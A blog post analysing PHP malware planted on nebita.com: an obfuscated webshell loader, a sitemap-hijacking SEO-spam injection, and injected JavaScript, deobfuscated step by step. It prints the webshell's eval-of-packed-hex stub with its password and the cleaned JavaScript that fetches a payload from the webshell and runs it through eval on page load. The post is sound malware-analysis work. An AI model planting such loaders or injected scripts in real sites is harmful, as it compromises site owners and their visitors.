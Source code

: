 ```yaml
---
title: "analyzing simple, real world PHP malware"
date: 2022-05-31
description: "a look at the malware nebita.com was infected with"
tags:
    - security
    - infosec
    - malware
    - reverse engineering
    - php
feature_image: /img/posts/nebita-malware/cover.jpg
feature_alt: "a glitchy edited screenshot of the nebita.com home page"
---
```


In February I was contacted by [convincing](https://convinci.ng/) from [webcage](https://webca.ge/), asking whether I'd like to have a look at some malware that ended up on the [website of webcage member nebita](https://nebita.com). At that point it's been a while since i last looked into any PHP malware, or PHP stuff in general, but I agreed to at least take a quick look at it. I originally documented that work in a Twitter thread, but promised a blog post and with the Twitter account it was originally posted on being suspended that makes even more sense now.

## the beginning

![an excerpt of the heavily obfuscated php injected at the start of the index file](/img/posts/nebita-malware/index.php-excerpt.png)

Various changes were made when the site was originally owned via an insecure ftp password set by the hosting provider at the time. The sites index file had obfuscated php appended to [the start of the file](https://github.com/deletescape/nebita.com-samples/blob/main/index.php#L1) and was renamed from a plain html file to a php file, similarly the main js file had obfuscated javascript [appended at the end](https://github.com/deletescape/nebita.com-samples/blob/main/main.js#L63).

![the start of the second script dropped in a new sub directory](/img/posts/nebita-malware/second-script-screenshot.png)

Additionally [another PHP file](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/index.php) called `deez.php`, obfuscated using a different method, was placed in a newly created subdirectory. Based on the fact that this was a standalone script hidden in a subdirectory and the few unobfuscated variables and environment settings I assumed that this script would most likely turn out to be a [webshell](https://en.wikipedia.org/wiki/Web_shell), however I was still going to try and deobfuscate it, both for the fun of it and to make sure I was right.

## the webshell

I decided to take a look at what I assumed was a webshell first, mostly because the obvious use of [rot13](https://en.wikipedia.org/wiki/ROT13) for obfuscation made it seem like a much simpler target than the other two scripts.

So let's get a basic outline of the full script:

```php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "9cf9ffdce70e787dd580fccee52f402e";
define('Viv, bebegim.','');
```
1. basic configuration with headers being set, as well as some sort of password 👀  
```php
function s(){
	$str = "66756r[...]9rr680n75o272r2463686q6s642r275q3p2s6469763r3p2s666s726q3r273o0q0n627265616o3o0q0n7q";
	$str=get_str($str);
	m($str);
}
function get_str($str){
	$str = str_rot13($str);
	return $str;
}
```
2. a big blob of data is defined, which when run through `rot_13` turns out to still be encoded in some hexadecimal format  
```php
function get1_str($str1){
	$str = $str1."ck";
	return $str;
}
function m($str){
	global $password;
	$str1="pa";
	$str1=get1_str($str1);
	$jj = '';
	@eval(`/******/`.$jj.$str1('H*',$str).$jj);
}
s();
```
3. `$password` is turned into a global, to be used inside the packed script
4. `get1_str` and `m` are simply a very badly obfuscated call to `pack` which turns our hex encoded data into plain text php...
5. ... which then gets executed via eval, after doing some useless concatenation in an attempt to obfuscate that call

All we have to do now to get out an [unobfuscated version of the script](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/decoded.php) is to replace the call to `eval` with `echo` and running it. And what do we get when we do that? ...

![a screenshot of part of the webshell source code](/img/posts/nebita-malware/webshell-1.jpg)

🎉 a webshell ✨

![another screenshot of part of the webshell source code, showing some of the backdooring code](/img/posts/nebita-malware/webshell-2.jpg)

It even has some fun persistence features, including a built in way to spawn persistent reverse shells on the compromised system to back door it more permanently.

## the index file

### deobfuscation

Ok, with that out of the way let's take a look at the way more complex looking code injected in the header of the index file. The first thing i did to tackle this one was to copy all the PHP into a seperate file and formatting it, this already made it signficiantly less overwhelming.

![a screenshot of part of the formated injected malware](/img/posts/nebita-malware/index-isolated.jpg)

I then URLdecoded the long string at the start, which made it clear that it seems to be some sort of look-up table/alphabet. 

```php
# before
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a%7c";

# after
$O = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|";
```

this quickly made it clear that this script was obfuscated by turning all strings (and method names) into array references. I first tried to undo this obfuscation by half-manually decoding the script string by string, this turned out to be way too tedious very quickly so i wrote a quick and dirty python script to automatically do it for me (with some cursed regex replacements required to join the characters into full strings (`s/"([^"]+)" . "([^"]+)"/"$1$2"/`)).

```python
script = """<full formatted but obfuscated php script here>"""

alphabet = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|"

count = 0
for char in alphabet:
    if char == "\"" or char == "\\":
        char = "\\" + char
    script = script.replace(f"$O[{count}]", f"\"{char}\"")
    count = count + 1

print(script)
```

After that it was only a matter of manually renaming obfuscated variable names and figuring out what [this, now super clean, script](https://github.com/deletescape/nebita.com-samples/blob/main/decoded.php) does.

![a screenshot of the start of the now deobfuscated malware script](/img/posts/nebita-malware/index-deobfuscated.jpg)

### analysis

It turns out this script is A LOT of fun and certainly way more interesting than i expected. What it does is, it captures requests for sitemaps from search engine bots and returns sitemaps from their own backend, presumably to trick search engines into ranking spam sites higher and as related to the sites infected with this malware.

![a screenshot of some of the sitemap replacement source code](/img/posts/nebita-malware/index-sitemap.jpg)

Based on this scripts function, the little info i have on the backend as well as the fact that the webshell they used is in Chinese, I assume that the site was hacked by spammers (or their contractors) from China, who then resell traffic and search engine ranking services to others, most likely also spammers/scammers.

## the javascript

The JavaScript injected at the start of the main js file turned out to be fairly heavy but standard js obfuscation, which I was able to manually reverse step by step with a little bit of patience. I don't really have a write up on how I did that for this specific instance, but I plan to at some point talk about my process for manually deobfuscating scripts.

After a few passes of manual clean up the script turns out to be merely 27 simple lines of js:
```js
if (hasRun === undefined) {
  var hasRun = true;

  var HttpClient = function () {
    this.get = function (url, callback) {
      var request = new XMLHttpRequest();
      request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
          callback(request.responseText);
        }
      };
      request.open("GET", url, !![]);
      request.send(null);
    };
  };

  (function () {
    if (document.referrer && !(document.referrer.indexOf(location.hostname) !== -1) && !document.cookie) {
      var client = new HttpClient();
      var url = location.protocol + "//nebita.com/U66c6Lzr<shortened by maia>aa8HI/deez/deez.php?id=" + Math.random().toString(36).substr(2) + Math.random().toString(36).substr(2);
      client.get(url, function (response) {
        // execute returned xss payload
        response.indexOf("ndsx") !== -1 && eval(response);
      });
    }
  })();
}
```

So all this script did is query the webshell script for a javascript payload to execute on each load of the webpage. It's unfortunately not possible to figure out anymore what, if anything at all, was injected into the site this way, but I assume that this was the main reason for the big slowdown of the page that lead to discovering the malware in the first place (this is purely speculation though).

## the backend

So next i obviously wanted to take a look at the spammers backend and it's api, however that turned out to have been taken down already at the time.

## the malware

If you are interested in looking through the malware source code yourself, or attempt to replicate my deobfuscation attempts all files mentioned throughout this article can be found in a [GitHub repository here](https://github.com/deletescape/nebita.com-samples/). Feel free to let me know if you find anything interesting I missed!